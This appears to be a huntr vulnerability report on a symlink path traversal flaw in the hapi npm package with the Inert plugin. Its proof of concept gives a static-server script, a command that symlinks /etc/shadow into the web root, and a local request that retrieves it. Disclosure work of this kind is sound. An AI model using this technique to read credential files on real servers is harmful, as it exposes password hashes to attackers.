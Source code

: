 <!-- Thanks for contributing to huntr! -->
I would like to report Path traversal via Symlink in hapi npm package.

Module module name: hapi/hapi version: 19.1.1 npm page: https://www.npmjs.com/package/@hapi/hapi

Description: 
With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

PoC: 
1. Install the hapi: **npm i @hapi/hapi**
2. Run the server as: **node static_server.js**. 
Mentioning the code for static_server.js file below -

`const Path = require('path');
const Hapi = require('@hapi/hapi');
const Inert = require('@hapi/inert');

const init = async () => {

    const server = new Hapi.Server({
	host: 'localhost',
        port: 3000,
        routes: {
            files: {
                relativeTo: Path.join(__dirname, 'public')
            }
        }
    });

    await server.register(Inert);

    server.route({
        method: 'GET',
        path: '/{param*}',
        handler: {
            directory: {
                path: '.',
                redirectToSlash: true
            }
        }
    });

    await server.start();

    console.log('Server running at:', server.info.uri);
};

init();`

3. Create a symlink file within the directory ln -s /etc/shadow test_shadow.html
4. Request the file within browser http://localhost:3000/test_shadow.html

Recommendation: 
Reject the symbolically linked path files.

